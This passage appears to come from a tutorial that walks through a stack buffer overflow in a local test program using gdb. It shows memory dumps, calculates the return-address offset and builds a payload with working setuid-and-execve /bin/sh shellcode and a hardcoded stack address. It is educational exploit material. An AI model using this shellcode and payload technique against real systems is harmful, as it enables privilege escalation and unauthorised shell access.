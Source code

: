 ```
(gdb) x /40x $esp
0xbffff4b8:	0xbffff538	0xb7e75e66	0x00000002	0xbffff564
0xbffff4c8:	0xbffff570	0xb7fe0860	0xb7ff6821	0xffffffff
0xbffff4d8:	0xb7ffeff4	0x0804826d	0x00000001	0xbffff520
0xbffff4e8:	0xb7fefc16	0xb7fffac0	0xb7fe0b58	0xb7fbeff4
0xbffff4f8:	0x00000000	0x00000000	0xbffff538	0xdb0169dd
0xbffff508:	0xea54bfcd	0x00000000	0x00000000	0x00000000
0xbffff518:	0x00000002	0x08048360	0x00000000	0xb7ff59c0
0xbffff528:	0xb7e75d8b	0xb7ffeff4	0x00000002	0x08048360
0xbffff538:	0x00000000	0x08048381	0x0804844c	0x00000002
0xbffff548:	0xbffff564	0x080484a0	0x08048490	0xb7ff0590
```

From breakpoint 2, we discovered that 0xbffff538 is the saved EBP and that 0xb7e75e66 is the return address. This means we have 76 bytes before we need to overwrite the return address. Seems pretty easy. Well, it's not :p. We will now put the shellcode at the beginning and fill the rest with Bs. We'll also replace the return address with Bs just to make sure it works.

```
(gdb) break *0x0804847f
Breakpoint 1 at 0x804847f
(gdb) run $(python -c 'print "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "B"*48')
Starting program: /root/Desktop/ex6 $(python -c 'print "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "B"*48')

Breakpoint 1, 0x0804847f in main ()
(gdb) x /40x $esp
0xbffff450:	0xbffff460	0xbffff6bc	0xbffff477	0x00000001
0xbffff460:	0xc389c031	0x80cd17b0	0x6852d231	0x68732f6e
0xbffff470:	0x622f2f68	0x52e38969	0x8de18953	0x80cd0b42
0xbffff480:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff490:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff4a0:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff4b0:	0x00000000	0xbffff554	0xbffff560	0xb7fe0860
0xbffff4c0:	0xb7ff6821	0xffffffff	0xb7ffeff4	0x0804826d
0xbffff4d0:	0x00000001	0xbffff510	0xb7fefc16	0xb7fffac0
0xbffff4e0:	0xb7fe0b58	0xb7fbeff4	0x00000000	0x00000000
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Can you spot the difference? ESP was originally pointed to 0xbffff460 when we injected 64 Bs. Now when we add the shellcode, it somehow points to 0xbffff450. This change is caused by the addition of the shellcode and must be taken into account when we point the return address to the shellcode. Size changes of strcpy beyond the buffer can change the ESP value. However, as long as we keep the size the same, the shellcode will still be located at 0xbffff460. We will do the same procedure as before except we will replace the last 4 bytes with the address of the shellcode.

```
(gdb) run $(python -c 'print "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "B"*44 + "\x60\xf4\xff\xbf"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/Desktop/ex6 $(python -c 'print "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "B"*44 + "\x60\xf4\xff\xbf"')

Breakpoint 1, 0x0804847f in main ()
(gdb) x /40x $esp
0xbffff450:	0xbffff460	0xbffff6bc	0xbffff477	0x00000001
```